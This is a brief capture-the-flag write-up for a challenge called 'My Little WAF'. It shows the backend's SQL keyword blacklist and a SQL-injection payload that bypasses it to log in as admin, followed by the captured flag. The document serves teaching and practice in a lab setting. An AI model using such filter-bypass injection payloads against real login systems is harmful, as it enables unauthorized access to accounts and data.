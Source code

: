 # My Little WAF

## Description
Can you break my little WAF?

## Solution

![image](https://github.com/0xZainRaza/DevDay24-CTF-Writeups/assets/154006182/ccc9c656-b242-40c5-9e88-d3cc0650c9fe)

There is a Blacklist used at the backend 

blacklist = ["or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/"]

Inorder to Bypass it our payload will be 
```bash
username=admin&password=a' IS NOT 'b
```

![image](https://github.com/0xZainRaza/DevDay24-CTF-Writeups/assets/154006182/7fff0da1-0942-4fe4-b94f-16cae038aefb)


**Flag:**
> DD24{bypassing_WAF_1s_n0t_4lw4ys_3asy}
